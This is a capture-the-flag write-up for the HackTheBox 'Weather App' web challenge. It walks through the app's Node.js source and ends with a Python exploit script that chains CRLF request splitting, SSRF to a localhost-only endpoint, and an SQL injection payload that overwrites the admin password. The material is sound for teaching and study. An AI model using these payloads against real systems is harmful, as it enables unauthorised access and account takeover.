 # Writeup for Weather App (Web Challenge from HackTheBox)

> Multiple bugs had to be chained in order to obtain the flag. Here's a brief summary:

* HTTP request splitting (CRFL Injection) on POST request at /api/weather in the "endpoint" parameter.
* Exploit the request splitting to perform an SSRF.
* POST request to /register endpoint is only possible as localhost, so utilize the SSRF to make the request.
* The register form is vulnerable to SQL Injection. Exploit it to change admin password.
* Login as admin to obtain the flag.

> Writeup:

## Code Review

Looking at the code, I found these endpoints:
 * /login
 * /register
 * /api/weather

This part of the code handles the POST request on the login page.
```js
router.post('/login', (req, res) => {
    let {
        username,
        password
    } = req.body;

    if (username && password) {
        return db.isAdmin(username, password)
            .then(admin => {
                if (admin) return res.send(fs.readFileSync('./flag').toString());
                return res.send(response('You are not admin'));
            })
            .catch((e) => res.send(response(e.message)));
    }

    return re.send(response('Missing parameters'));
});
```
Apparantly, logging in as admin would give us the flag. There is an 'isAdmin' function that takes our username and password inputs as arguments and checks if we're admin or not. So, I checked the code for this function in database.js file.

```js
async isAdmin(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
                let row = await smt.get(user, pass);
                resolve(row !== undefined ? row.username == 'admin' : false);
            } catch (e) {
                reject(e);
                }
        });
}
```

It just searches for a row in 'users' table with the username and password that we provide. If it finds a row matching the values we gave, it checks if the username is 'admin' or not and returns true/false. In the same file, I also found that an admin account gets created with a randomized password at start. So, I thought there must be an SQL Injection somewhere. Then I looked at the code for registration in the same file.
```js
  async register(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
                resolve((await this.db.run(query)));
            } catch (e) {
                reject(e);
            }
        });
    }
   ```
This is it. It seemed to be vulnerable to SQLi since, the username and password we provide had not been filtered and was directly appended to the query which means we can inject our own SQL queries into it. However, in order to register a new account we had to send the POST request locally.
```js
router.post('/register', (req, res) => {
    if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
        return res.status(401).end();
    }
    let {
        username,
        password
    } = req.body;

    if (username && password) {
        return db.register(username, password)
            .then(() => res.send(response('Successfully registered')))
            .catch((err) => {
                res.send(response(err.message))
            });
    }

    return res.send(response('Missing parameters'));
});
```
As we can see here, when we send a POST request to /register, it checks our IP and only allows registration if it's sent from localhost. So, we need to find an SSRF to make this request.

Now, looking at the code for /api/weather endpoint, I found that it calls 'getWeather' function by passing our POST data as it's arguments
```js
return WeatherHelper.getWeather(res, endpoint, city, country);
```

So, I took a look at the getWeather function in WeatherHelper.js file. Here, I saw this line of code
```js
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
```
After looking at the code for 'HttpGet' function, I found that it uses the 'http' module to send a GET request to the provided argument. Clearly, we can utilize this function to perform an SSRF attack since we can control the 'endpoint' parameter. However, we can only send GET requests using this API whereas, our goal is to send a POST request to /register. So, I got stuck at this point for a while. I later realized that this was not the latest version of NodeJS. I searched for some vulnerabilities in this version of Node and found that I could perform CRLF injection in 'get' function of the http module. So, now this can be exploited to smuggle a POST request to /register.

Keeping all these things in mind, here's a python code I wrote to change the admin password:
```py
import requests as r

sp="\u0120" # Space
rn="\u010D"+"\u010A" # \r\n

# Exploiting SQL Injection on registration to UPDATE the password of admin
# Register a new user with username "admin" and password "a') ON CONFLICT (username) DO UPDATE password='password' -- "
# Since, admin username already exists, it'll create a conflict and our injected code will get executed and updates the admin password to 'password'
username="admin"
passwordPayload="a%27)"+sp+"ON"+sp+"CONFLICT"+sp+"(username)"+sp+"DO"+sp+"UPDATE"+sp+"SET"+sp+"password=%27password%27;"+sp+"--"+sp 

postData=f"username={username}&password={passwordPayload}"

# Injecting CRLF on "endpoint" parameter to smuggle a POST request to /register with postData 
data={
    "endpoint":f"127.0.0.1/{sp}HTTP/1.1{rn}Host:{sp}127.0.0.1{rn}{rn}POST{sp}/register{sp}HTTP/1.1{rn}Host:{sp}127.0.0.1{rn}Content-Type:{sp}application/x-www-form-urlencoded{rn}Content-Length:{sp}{str(len(postData))}{rn}{rn}{postData}{rn}{rn}GET{sp}",
    "city":"Kathmandu",
    "country":"NP"
}
r.post("http://159.65.92.208:30533"+weatherApiEndPoint,data=data)
```

Then, I logged in with username 'admin' and password 'password' and got the flag :)
